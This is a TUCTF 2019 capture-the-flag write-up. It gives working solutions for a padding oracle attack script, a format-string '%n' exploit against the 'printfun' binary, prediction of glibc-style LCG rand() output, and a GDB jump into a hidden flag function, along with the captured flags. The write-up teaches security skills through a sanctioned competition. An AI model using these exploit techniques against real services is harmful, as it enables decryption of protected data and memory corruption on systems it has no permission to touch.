 # TUCTF 2019

## Crypto

### The Oracle

It's a classic Padding Oracle Attack task, which will give you an encrypted message and receive your encrypted message then tell you whether the padding is valid or not.

```python
from pwn import remote
from base64 import b64decode, b64encode

HOST, PORT = 'chal.tuctf.com', 30103

r = remote(HOST, PORT)

def pretty_print(ct):
    for bid in range(len(ct) // 16):
        print(' '.join(str(hex(ct[i]).lstrip('0x')).zfill(2) for i in range(bid * 16, (bid + 1) * 16)))

r.recvlines(6)
ct = b64decode(r.recvline().strip())
with open('ct', 'w') as f:
    f.write(b64encode(ct))
ct = [ord(i) for i in ct]
# pretty_print(ct)

def calc_pad(blk, pad):
    return [i ^ pad for i in blk]

def xor(a, b):
    return ''.join(chr(i ^ j) for i, j in zip(a, b))

pt= ''
for bid in range(len(ct) // 16 - 1):
    known_blk = [0 for _ in range(16)]

    for i in range(16):
        for j in range(256):
            r.recvlines(6)
            r.sendline('1')

            test_blk = [0] * (16 - i - 1) + [j] + calc_pad(known_blk[16 - i:16], i + 1)
            # pretty_print(test_blk)
            # assert(len(test_blk) == 16)
            payload = test_blk + ct[16 * (bid + 1):16 * (bid + 2)]
            r.sendlineafter(': ', b64encode(''.join(chr(ch) for ch in payload)))

            res = r.recvlines(2)[1]
            # print(res)
            if 'Valid' in res:
                known_blk[-(i + 1)] = j ^ (i + 1)
                break

        print('known_blk: ')
        pretty_print(known_blk)
    pt += xor(ct[16 * (bid + 0):16 * (bid + 1)], known_blk)
    print('pt = {}'.format(pt))

r.recvlines(6)
r.sendline('2')
r.sendline(pt)
r.interactive()
```

Flag `TUCTF{D0nt_l3t_y0ur_s3rv3r_g1v3_f33db4ck}`

## PWN

### printfun

Decompiled code:
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *s; // ST1C_4
  void *buf; // ST18_4

  setvbuf(stdout, 0, 2, 0x14u);
  setvbuf(stdin, 0, 2, 0x14u);
  s = malloc(0x40u);
  buf = malloc(0x40u);
  memset(s, 0, 0x40u);
  memset(buf, 0, 0x40u);
  printf("What's the password? ");
  read(0, buf, 0x3Cu);
  getPass(s);
  puts("__DEBUG OUTPUT__ (Disable before production)");
  puts("User input:");
  printf(buf);
  sleep(1u);
  if ( !strcmp(buf, s) )
  {
    puts("Lucky guess...");
    system("/bin/cat ./flag.txt");
  }
  else
  {
    puts("Better luck next time");
  }
  return 0;
}
```

We could easily see that there is a format string vulnerability.

First, we should find the offset of `s` and `buf` on the stack frame by using `%x$s` (`x` is a number).

```python
from pwn import process

for i in range(100):
    print('# {}'.format(i + 1))
    r = process('./printfun')
    r.sendlineafter('? ', '%{}$s'.format(i + 1))
    r.recvlines(2)
    try:
        res = r.recvall().rstrip('\nBetter luck next time')
        r.close()
        print(len(res))
        print(res)
    except:
        pass
```

output:
```text
# 6
4
%6$s
# 7
60
\x95\xa4\x14F\xfe\xfe��M\x96UF\x11Ǧ\x89�#\x18X\xb7\x87\x84$\xbb�
                                                                \xaaƓ\x1c@\x17?�U\x04i
\x07�Ub)\x0b\xb7\xb6\x03y\xbe\xac\x1d7\x7f\x97\xfe
```

We knew that the offset of `s` and `buf` on the stack frame are 6 and 7, respectively.

Then, we can use `%n` to write a new value into both `s` and `buf`, making them equal, which make the program execute `system("/bin/cat ./flag.txt")`

```python
from pwn import remote

HOST, PORT = 'chal.tuctf.com', 30501

r = remote(HOST, PORT)
r.sendlineafter('? ', 'A%6$n%7$n')
r.recvlines(2)
print(r.recvall())
```

`TUCTF{wh47'5_4_pr1n7f_l1k3_y0u_d01n6_4_b1n4ry_l1k3_7h15?}`

## Misc

### RNGeesus

The task gave us a integer generated from `rand()` function, and wanted us to predict the next integer generated from `rand()`.

After some research, we found the implementation of the `rand()` function:
```cpp
static unsigned long int next = 1;

int rand(void) // RAND_MAX assumed to be 32767
{
    next = next * 1103515245 + 12345;
    return (unsigned int)(next/65536) % 32768;
}

void srand(unsigned int seed)
{
    next = seed;
}
```

Apparently, it use Linear Congruential Generator (LCG) as the algorithm to generate pseudo-randomized numbers, which uses the previous output to generate the next pseudo-random number.

Here is the exploit:

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
  int n;
  scanf("%d", &n);
  srand(n);
  printf("%d\n", rand());
  return 0;
}
```

Flag `TUCTF{D0NT_1NS3CUR3LY_S33D_Y0UR_LCGS}`

## Reversing

### faker

Instead of the listed options (functions), such as `A`, `B`, `C`, which will print a fake flag for us, there's still another function called `thisone` which will print the correct flag.

We could easily extract the function then execute it, or just simply use GDB to jump into the `thisone` function.

```bash
gdb-peda$ b main
gdb-peda$ r
gdb-peda$ disas thisone
Dump of assembler code for function thisone:
   0x0000561d39a3034b <+0>:	endbr64
   0x0000561d39a3034f <+4>:	push   rbp
   0x0000561d39a30350 <+5>:	mov    rbp,rsp
   0x0000561d39a30353 <+8>:	sub    rsp,0x10
   0x0000561d39a30357 <+12>:	lea    rax,[rip+0xcaa]        # 0x561d39a31008
   0x0000561d39a3035e <+19>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000561d39a30362 <+23>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000561d39a30366 <+27>:	mov    rdi,rax
   0x0000561d39a30369 <+30>:	call   0x561d39a30269 <printFlag>
   0x0000561d39a3036e <+35>:	nop
   0x0000561d39a3036f <+36>:	leave
   0x0000561d39a30370 <+37>:	ret
End of assembler dump.
gdb-peda$ set $rip=0x0000561d39a3034b
gdb-peda$ c
Continuing.
TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}
[Inferior 1 (process 60) exited with code 076]
Warning: not running
```

Flag `TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}`
